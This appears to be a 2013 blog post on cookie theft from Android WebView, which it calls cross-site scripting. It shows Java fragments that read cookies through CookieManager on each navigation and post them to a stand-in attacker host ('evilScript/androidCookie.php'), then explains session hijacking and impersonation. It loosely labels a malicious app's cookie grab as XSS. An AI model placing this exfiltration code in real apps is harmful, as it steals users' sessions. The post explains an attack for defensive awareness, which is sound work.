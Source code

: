 +++
author = "Bhavani Anantapur Bache"
title = "Cross-site Scripting Attacks on Android WebView"
date = "2013-04-05"
description = "Cross-site Scripting Attacks on Android WebView"
featured = true
tags = [
    "Programming",
    "Android",
    "Embedded Systems",
]
categories = [
    "Programming",
    "Android",
    "Embedded Systems"
]
series = ["Embedded Systems"]
aliases = ["migrate-from-jekyl"]
thumbnail = "images/building.png"
+++
WebView is an essential component in Android and iOS. It enables applications to display content from on-line resources. It simplifies task of performing a network request, parsing the data and rendering it. WebView uses a number of APIs which can interact with the web contents inside WebView. In the present post, Cross-site scripting attacks or XSS attacks specific to Android WebView are discussed. Cross-site scripting (XSS) is a type of vulnerability commonly found in web applications. This vulnerability makes it possible for attackers to run malicious code into victim’s WebView, through HttpClient APIs. Using this malicious code, the attackers can steal the victim’s credentials, such as cookies. The access control policies (i.e.,the same origin policy) employed by the browser to protect those credentials can be bypassed by exploiting the XSS vulnerability.
<h3>Cross-site scripting (XSS)</h3>
Cross-site scripting (XSS) is a type of computer security vulnerability typically found in Web Applications. To protect the user’s environment from malicious code, browsers use a sand-boxing mechanism that limits a script to access only resources associated with its origin site. Unfortunately, these security mechanisms fail if a user unknowingly executes a malicious script from an intermediate, trusted site. In this case, the malicious script is granted full access to all resources (e.g. Authentication tokens and cookies) that belong to the trusted site. Such attacks are called cross-site scripting (XSS) attacks. In the present work, Cross-site scripting attacks on Android WebView are investigated. By finding ways of executing malicious scripts through the third party malicious app on phone, an attacker can gain elevated access-privileges to sensitive page content, session cookies, and a variety of other information in the phone such as contacts.

<h3>Stealing cookies from the victim’s device </h3>
The most common behavior of XSS attacks is to gather cookies. Cookies are small text files that reside on a user’s computer and store name-value pairs along with some metadata. Cookies are commonly used to store information intended to be persistent during a browser session or from session to session, such as session IDs, user preferences, or login information. The cookie specifications assume that only the domain that set the cookie will be able to access it.

<h3>Attack Method</h3>
When the user runs the application through the WebView, Android applications can monitor the events occurred within WebView. We override the shouldOverrideUrlLoading hook, which is triggered by the navigation event, (when the user tries to navigate to another URL). Cookies can be gathered at every page navigation of the user using the method getCookie() from CookieManager class as shown in the code fragment below:

````java
CookieManager cookieManager = CookieManager.getInstance();
final String cookie = cookieManager.getCookie(url);
````

Through HttpPost, malicious script can be run on the user’s Android device, cookies and URL can be sent to any third party (i.e., the attacker’s server), thus avoiding the same-origin policy or cookie protection mechanism.

````java
HttpClient httpClient = new DefaultHttpClient();
HttpPost httpPost = new HttpPost(“http://evilScript/androidCookie.php");
````
The attacker is now able get all the cookies and will be able to launch several attacks such a Session Hijacking and impersonating user using stolen cookies. The attacks described above are quite dangerous as the user sees only the trusted content and is not aware that his cookies are being stolen.
<h3>Session Hijacking</h3>
Session hijacking is a method of taking over a Web user session by stealthily obtaining the session ID and gaining unauthorized access. The session ID is normally stored within a cookie or URL. Once the user’s session ID has been accessed, the attacker can masquerade as that user and do anything the user is authorized to do on the network. From the web server’s point of view, a request from an attacker has the same authentication as the victim’s requests, thus the request is performed on behalf of the victim’s session. This usually results in the attacker being able to perform all normal web application functions with the same privileges of legitimate user (e.g. online bill pay, composing an email, etc.).

<h3>Impersonating user using stolen cookies</h3>
If a website uses cookies as session identifiers, attackers can impersonate users after stealing victim’s cookies. By stealing cookies of social networking sites, message boards or forums, the attacker can post a new message in the victim’s name delete the victim’s post or exploit user’s credentials without his consent.

NOTE: Please see the [research publication]("http://ijcsn.org/IJCSN-2013/2-2/IJCSN-2013-2-2-03.pdf") for more details

